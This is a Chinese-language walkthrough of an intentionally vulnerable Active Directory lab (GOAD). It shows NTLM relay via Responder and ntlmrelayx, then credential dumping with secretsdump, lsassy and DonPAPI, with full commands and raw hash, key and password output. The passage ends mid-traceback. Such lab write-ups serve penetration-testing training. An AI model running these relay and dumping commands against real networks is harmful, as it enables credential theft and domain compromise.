

直接用获得的robb.stark密码使用secretsdump就可以获取winterfell.north.sevenkingdoms.local的SAM数据库，但是靶场设计者没有这样做，我的推测是设计者想展示更多样的攻击手段，而不是止步于此，也可能BOT只能是管理员？

```bash
secretsdump -outputfile "winterfell.north.sevenkingdoms.local" -just-dc  "winterfell.north.sevenkingdoms.local"/"robb.stark":"sexywolfy"@"192.168.56.11"
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3b491c7e98b0e08aed021c5c69d422cb:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:41eed99c9436fd9358dfe33683758410:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:7ece4bbc5022916aa87c76fd672f6739:::
rbcd_const$:1123:aad3b435b51404eeaad3b435b51404ee:0c36f3e9a47d04ea89be82a0013b1643:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:d1359ba7e922b3bed17a21b94fe62363:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:3b2731f5b271fdcc76a94c2b6da7568da8db94c414337391e4b6f3c65adc068f
krbtgt:aes128-cts-hmac-sha1-96:754f457c1a0f1e4c3ffda698db69ae13
krbtgt:des-cbc-md5:517aae9146bcf757
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
WINTERFELL$:aes256-cts-hmac-sha1-96:286c08d70729d10cbf5e8b3a3039a7c23c1b43e5b203ebafa7748b6df5f7e9a7
WINTERFELL$:aes128-cts-hmac-sha1-96:9edd5764fa8d485bf23417522ecd9329
WINTERFELL$:des-cbc-md5:23a28cc838cd8f40
CASTELBLACK$:aes256-cts-hmac-sha1-96:c98b30aa71d1c633e7d138bc9b10625cf95bdb5eb2fb8f4a53330a34f0cf3356
CASTELBLACK$:aes128-cts-hmac-sha1-96:9febbc6e09b5d83707168d6a8cb6cb8d
CASTELBLACK$:des-cbc-md5:460b8c132a58c76d
rbcd_const$:aes256-cts-hmac-sha1-96:b2797e5ce5eef123e88aceb3f4fc51fd59fe0b14e720217d7141f8a5abf60505
rbcd_const$:aes128-cts-hmac-sha1-96:b44b6b76d70482a1f4d85b9c20ba6acc
rbcd_const$:des-cbc-md5:758ff1c7a12f40cb
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:1eee7cb9a4f902debceee3e7c87cefbb1f9b9cac9771a4b0ddeb24977005c7ad
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:aab781581e6f90472126a49c0ac1bc50
SEVENKINGDOMS$:des-cbc-md5:7a265858ea9eb0d9
[*] Cleaning up...
```

Eddard的密码比较强，用这个方法是破解不了的
这并不意味着我们无能为力，我们可以做的是将 eddard 连接中继到unsigned smb 服务器

> Responder 将日志保存在 /opt/tools/Responder/logs（在 exegol 上），如果您需要再次显示它们
>
> 如果要删除以前捕获的日志（消息跳过以前捕获的哈希）删除文件 /opt/tools/Responder/Responder.db

目前获取的凭据：

- north.sevenkingdoms.local\samwell.tarly:Heartsbane（用户描述）

- north.sevenkingdoms.local\brandon.stark:iseedeadpeople（AS-REP Roasting）

- north.sevenkingdoms.local\hodor:hodor（密码喷洒）

- north.sevenkingdoms.local\jon.snow:iknownothing（Kerberoasting）

- north.sevenkingdoms.local\robb.stark:sexywolfy （Responder）

攻克机器：

- north.sevenkingdoms.local

### NTLM Relay

首先找到signing:False的服务器

```bash
crackmapexec smb 192.168.56.10-23 --gen-relay-list relay.txt
```

接下来尝试将ntlm认证中继到这些服务器

#### responder + ntlmrelayx to smb

在启动responder对 LLMNR、MDNS 和 NBT-NS 请求的回复投毒之前，我们必须停止 responder监听smb 和 http 服务器，因为我们不想直接获取哈希值，但我们想将它们中继到 ntlmrelayx

```bash
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

```bash
HTTP = Off
```

```bash
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

```bash
SMB = Off
```

启动ntlmrelayx

```bash
sudo impacket-ntlmrelayx -tf relay.txt -of netntlm -smb2support -socks
```

启动

- -tf：要中继身份验证的目标列表

- -of：输出文件，这将保留捕获的SMB哈希，就像我们之前使用响应器所做的那样，以便以后破解它们

- -smb2support：支持 SMB2

- `-socks`：启动 SOCKS 代理，使用中继得到的认证连接

```bash
ntlmrelayx> socks
Protocol  Target         Username            AdminStatus  Port
--------  -------------  ------------------  -----------  ----
SMB       192.168.56.22  NORTH/EDDARD.STARK  TRUE         445
SMB       192.168.56.22  NORTH/ROBB.STARK    FALSE        445
SMB       192.168.56.23  NORTH/EDDARD.STARK  FALSE        445
SMB       192.168.56.23  NORTH/ROBB.STARK    FALSE        445
```

- 投毒中继到了castelblack (192.168.56.22) 和 essos (192.168.56.23)，并设置了一个 socks 代理来使用该连接

- 由于 eddard.stark 是 north.sevenkingdoms.local 的域管理员，他在 castelback (192.168.56.22) 上获得了管理员权限



从图中很明显eddard.stark对MSSQL Server CASTELBLACK具有管理员权限

因为域树内建立了互相信任，所以全局组成员NORTH/EDDARD.STARK和NORTH/ROBB.STARK才可以访问essos.local中的MSSQL Server BRAAVOS 的资源

#### Secretsdump

使用secretsdump获取SAM数据库、LSA缓存登录、机器帐户和一些DPAPI信息

```bash
proxychains secretsdump -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb669e202a0f8b9c8606ffb2e2ae043b1
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:cb8fae3b3100fd97fef810af27d870a5107b6b63c6234e74c216abccf6a00a19
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:7d4a746188838cbbdde5cb46e8c7d670
NORTH\CASTELBLACK$:des-cbc-md5:a207f2a2dfbf20ad
NORTH\CASTELBLACK$:plain_password_hex:720076004f0037002100340032004b005b006a0039003f002300740056006c005b00710022007800200077006f0046004800640026005e0066005400360052005a0036004e00380064003e002c004e006a005f003e0062002900680055005d0067003d004d00430024004d003c00590020005e00200059007000320021006a0032005600710036003b00790048004a00540045003c005a0022004200730023005e003e00700035006b005e003b003d005c0062003d003600440074006400650071006c00750059003900430039006200390053006a006500280077002b00550074004e006200210060004d004c003c00
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:31bd66f0c6d14cc04235bc432af5c856:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x895960368af379200eca79f34713b458b878021d
dpapi_userkey:0x2d7e212a58f8898088f49bba3bc5daa7b5ad4699
[*] NL$KM
 0000   39 FB 46 D8 43 B6 EC E6  DE D7 CE 1C 50 2D AE B4   9.F.C.......P-..
 0010   4F 71 E1 25 BF 5E FB 14  86 14 D6 A3 0F 93 DE 42   Oq.%.^.........B
 0020   06 48 F4 35 B1 45 83 7E  1A 98 29 D6 45 19 14 D2   .H.5.E.~..).E...
 0030   C4 66 57 03 2B C5 04 01  AE 33 49 CD D2 E0 92 CE   .fW.+....3I.....
NL$KM:39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce
[*] _SC_MSSQL$SQLEXPRESS
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

- sam 数据库包含本地帐户（忽略 vagrant，因为它是设置实验室的默认用户）
- 获得了本地管理员用户的 NTLM Hash
- 获得了最后连接用户的 LSA 缓存（默认情况下 Windows 保留最后 10 个用户），即使域控制器无法访问，这对于连接到服务器也很有用，但这些缓存的凭证可以用 hashcat 离线破解（非常慢）
- 最后，我们还获得了机器帐户的哈希值（如果获取了机器帐户NTML Hash，就相当于拥有一个域用户的权限）

> 使用机器帐户，您可以像任何其他域用户一样查询 LDAP，运行 Bloodhound Ingestor

#### Lsassy

- 使用 lsassy 获取 lsass 进程存储的凭据

- 域帐户信息存储在 LSASS 进程中，因此转储此进程可以为您提供更多的域帐户和权限
- Lsassy 允许您远程转储 lsass（比执行 procdump、下载 lsass 转储文件并在本地执行 pypykatz 或 mimikatz 更方便），它会为您执行所有痛苦的操作，如转储和读取 lsass 内容（它也只转储 lsass 转储的有用部分优化传输时间）（lsassy 也作为一个 cme 模块存在）

```bash
proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 192.168.56.22
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] 192.168.56.22 Authentication successful
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] 192.168.56.22 Lsass dumped in C:\Windows\Temp\V2O.log (50526003 Bytes)
[+] 192.168.56.22 Lsass dump deleted
[+] 192.168.56.22 NORTH\CASTELBLACK$                      [NT] 31bd66f0c6d14cc04235bc432af5c856 | [SHA1] c3b83d288de925a4d6e8a19e461dabce7de98511
[+] 192.168.56.22 north.sevenkingdoms.local\CASTELBLACK$  [PWD] rvO7!42K[j9?#tVl[q"x woFHd&^fT6RZ6N8d>,Nj_>b)hU]g=MC$M<Y ^ Yp2!j2Vq6;yHJTE<Z"Bs#^>p5k^;=\b=6DtdeqluY9C9b9Sje(w+UtNb!`ML<
[+] 192.168.56.22 NORTH\robb.stark                        [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c
[+] 192.168.56.22 NORTH\sql_svc                           [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_83599b66.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_c1d426ae.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:17 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_b7a23061.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\robb.stark    [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:17 (TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_6ef5c1c6.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\sql_svc       [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_sql_svc_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_3a6215d8.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_812ca443.kirbi)
[+] 192.168.56.22 NORTH.SEVENKINGDOMS.LOCAL\CASTELBLACK$  [TGT] Domain: NORTH.SEVENKINGDOMS.LOCAL - End time: 2023-08-03 11:14 (TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_e1566d0a.kirbi)
[+] 192.168.56.22 18 Kerberos tickets written to /home/kali/.config/lsassy/tickets
[+] 192.168.56.22 5 masterkeys saved to /home/kali/.config/lsassy/masterkeys.txt
```

#### DonPapi

- 它用于获取 dpapi 和其他密码存储的信息（文件、浏览器、计划任务等）
- 该工具不接触 LSASS，因此它更加隐蔽，并且即使在目标上启用了 av 和 edr，也能在大多数时间工作

```bash
proxychains DonPAPI -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```

> 笔者测试工具有报错，只能收集一部分

```bash


         ,
       ,                                                 LeHack Release! 💀
        (
       .                                          by Touf & Zblurx @ Login-Securite
                                &&&&&&
     &&&&&%%%.                  &&&&&&
      &&&&%%%              &&&& &&&&&&       &&&&&&            &&&&&.
      &&&&%%%           &&&&&&& &&&&&&    &&&&&&&&&&&&&     &&&&&&&&&&&
      &&&&%%%         &&&&&&&&& &&&&&&  &&&&&&&&&&&&&&&&   &&&&&&&&&&&&&
    &&&&&&%%%%%       &&&&&&    &&&&&&  &&&&&&    &&&&&&   &&&&&   &&&&&   #####
 &&&&&&&&&%%%%%%%     &&&&&&&&&&&&&&&&  (&&&&&&&&&&&&&&&   &&&&&   &&&&&   # # #
 &/&/////////////%      &&&&&&&&&&&&      &&&&&&&&&&&&     &&&&&   &&&&&   #####
&&/&/#////////(//%         &&&&&&            &&&&&&        &&&&&   &&&&&    ###
&&/&/////////////%
&&/&/////////////%        &&&&&&&&&        &&&&&&&&&&        &&&&&&&&&     &&&&&
&&/&//////////(//%     &&&&&&&&&&&&&&    &&&&&&&&&&&&&&   &&&&&&&&&&&&&&   &&&&&
&&/&/////////////%     &&&&&&   &&&&&&  &&&&&&   &&&&&&&  &&&&&&   &&&&&&  &&&&&
&&/&///////////(/%    &&&&&&    &&&&&&  &&&&&&    &&&&&& &&&&&&    &&&&&&  &&&&&
&&/&///(/////////%    &&&&&& &&&&&&&&&  &&&&&&&&& &&&&&& &&&&&& &&&&&&&&&  &&&&&
&&/&/////////////%    &&&&&& &&&&&&&      &&&&&&& &&&&&& &&&&&& &&&&&&&    &&&&&
&&#&###########/#%    &&&&&&                             &&&&&&
&&###############%    &&&&&&                             &&&&&&

INFO Loaded 1 targets
INFO [192.168.56.22] [+] CASTELBLACK (domain:north.sevenkingdoms.local) (Windows 10.0 Build 17763) [SMB Signing Disabled]
INFO host: \\192.168.56.11, user: robb.stark, active:     8, idle:     8
INFO Adding connected user robb.stark from \\192.168.56.11
INFO host: \\192.168.56.106, user: eddard.stark, active:     0, idle:     0
INFO Adding connected user eddard.stark from \\192.168.56.106
INFO [192.168.56.22] [+] Found user .NET v2.0
INFO [192.168.56.22] [+] Found user .NET v2.0 Classic
INFO [192.168.56.22] [+] Found user .NET v4.5
INFO [192.168.56.22] [+] Found user .NET v4.5 Classic
INFO [192.168.56.22] [+] Found user All Users
INFO [192.168.56.22] [+] Found user Classic .NET AppPool
INFO [192.168.56.22] [+] Found user Default
INFO [192.168.56.22] [+] Found user Default User
INFO [192.168.56.22] [+] Found user Public
INFO [192.168.56.22] [+] Found user robb.stark
INFO [192.168.56.22] [+] Found user sql_svc
INFO [192.168.56.22] [+] Found user vagrant
INFO [192.168.56.22]  [+] Dumping LSA Secrets
INFO [192.168.56.22] [+]  LSA :  winlogon#vagrant : vagrant
INFO [192.168.56.22] [-] Found DPAPI Machine key : 0x7fedf97b3cdc585d14d9019ad197d4c31f8b655d
INFO [192.168.56.22] [-] Found DPAPI User key : 0xb30dc15bba504b3f1c6881b50bb485dd9308757c
INFO [192.168.56.22] [-] Found DPAPI Machine key : 0x53759d319f4a23f1765fdb5cd983eaeb232182dd
INFO [192.168.56.22] [-] Found DPAPI User key : 0x243f9f0a11073c08fb5150520c50265bf6c64b7b
INFO [192.168.56.22] [+]  LSA :  NL$KM_history : 39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce
INFO [192.168.56.22] [+]  LSA :  _SC_MSSQL$SQLEXPRESS#north.sevenkingdoms.local\sql_svc : YouWillNotKerboroast1ngMeeeeee
INFO [192.168.56.22]  [+] Dumping SAM Secrets
INFO [192.168.56.22] [+]  SAM : Collected 6 hashes
INFO [192.168.56.22] [+] Gathering DPAPI Secret blobs on the target
INFO [192.168.56.22] [+]
[CREDENTIAL]
LastWritten : 2023-08-10 16:31:41
Flags       : 48 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x2 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x1 (CRED_PERSIST_SESSION)
Target      : WindowsLive:target=virtualapp/didlogical
Description : PersistedCredential
Unknown     :
Username    : 02vsfjqjagxxlpgr
Unknown3     :

INFO [192.168.56.22] [+] Gathering Wifi Keys
INFO [192.168.56.22] [+] Gathering Vaults
INFO [192.168.56.22] [+] Gathering Certificates Secrets
Traceback (most recent call last):
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/donpapi/lib/certificates.py", line 402, in loot_privatekeys
    masterkey_guid = self.get_masterkey_guid_for_privatekey(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/donpapi/lib/certificates.py", line 515, in get_masterkey_guid_for_privatekey
    blob=PVKFile(privatekey_bytes)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 87, in __init__
    self.fromString(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 152, in fromString
    self[field[0]] = self.unpack(field[1], data[:size], dataClassOrCode = dataClassOrCode, field = field[0])
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 382, in unpack
    return dataClassOrCode(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 87, in __init__
    self.fromString(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 152, in fromString
    self[field[0]] = self.unpack(field[1], data[:size], dataClassOrCode = dataClassOrCode, field = field[0])
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 326, in unpack
    return self.unpack(two[0],data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 385, in unpack
    return unpack(format, data)[0]
struct.error: ('unpack requires a buffer of 4 bytes', "When unpacking field 'CryptAlgo | <L=0 | b''[:4]'", 'When unpacking field \'Blob | : | b\'\\x01\\x00\\x00\\x00\\x9a\\xe4\\x0f#\\x85q\\xceI\\xbdG/\\xd2\\x19\\x97#8\\x00\\x00\\x00\\x00,\\x00\\x00\\x00C\\x00r\\x00y\\x00p\\x00t\\x00o\\x00A\\x00P\\x00I\\x00 \\x00P\\x00r\\x00i\\x00v\\x00a\\x00t\\x00e\\x00 \\x00K\\x00e\\x00y\\x00\\x00\\x00\\x03f\\x00\\x00\\xc0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xe5\\xb2\\x18%\\x84\\xc7v\\xbc\\x0f2\\x98I\\xef\\x84\\x1b\\xfa\\x00\\x00\\x00\\x00\\x04\\x80\\x00\\x00\\xa0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xda\\t\\xef\\xa0\\x87\\x0cA\\xd7\\xd4\\xaaT^\\x0c 